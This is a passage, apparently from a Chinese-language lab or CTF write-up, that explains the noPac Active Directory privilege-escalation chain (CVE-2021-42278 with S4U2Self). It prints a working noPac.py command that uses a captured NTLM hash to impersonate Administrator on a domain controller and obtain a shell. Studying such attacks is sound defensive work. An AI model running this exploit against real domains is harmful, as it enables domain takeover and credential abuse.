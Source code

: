 ```plain
1、我们创建了与 DC 机器账户名字相同的机器账号 (不以$结尾，与 CVE-2021-42278 结合，此时 AD 未对域内机器用户名做验证)
2、账户请求 TGT 后，更改账户名字，通过 S4U2Self 申请 TGS 票据
3、DC 在 TGS_REP 阶段，这个账户不存在，DC 用自己的密钥加密 TGS 票据，提供一个属于该账号的 PAC，此时得到一个高权限的 ST
```

大致了解了原理，我们接下来进行实践

使用刚刚抓到的账号尝试攻击

```plain
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

[![](assets/1705989181-231eb67fc6151267e2acad3e0cd5dc6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170206-ea8e4c82-b904-1.png)

成功获取权限。

这里也可以用一开始抓到的机器用户`XR-DESKTOP$`，因为它是机器账户，本身就满足条件。
